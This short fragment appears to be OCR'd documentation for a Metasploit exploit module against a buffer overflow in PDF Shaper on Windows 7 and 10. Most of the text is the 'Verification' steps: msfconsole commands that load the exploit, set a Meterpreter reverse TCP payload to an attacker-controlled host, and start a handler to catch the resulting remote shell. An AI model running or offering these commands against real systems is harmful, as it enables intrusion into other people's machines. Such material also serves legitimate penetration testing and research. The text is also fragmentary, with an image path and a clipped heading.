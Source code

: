 update PDF Shaper from v3.5 to v9.9

Targets
Win 7 and Win 10

Verification
use exploit/windows/fileformat/shaper_pdf_bof.rb
set payload windows/meterpreter/reverse_tcp
set lhost (IP of Local Host)
exploit

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost (IP of Local Host)
exploit
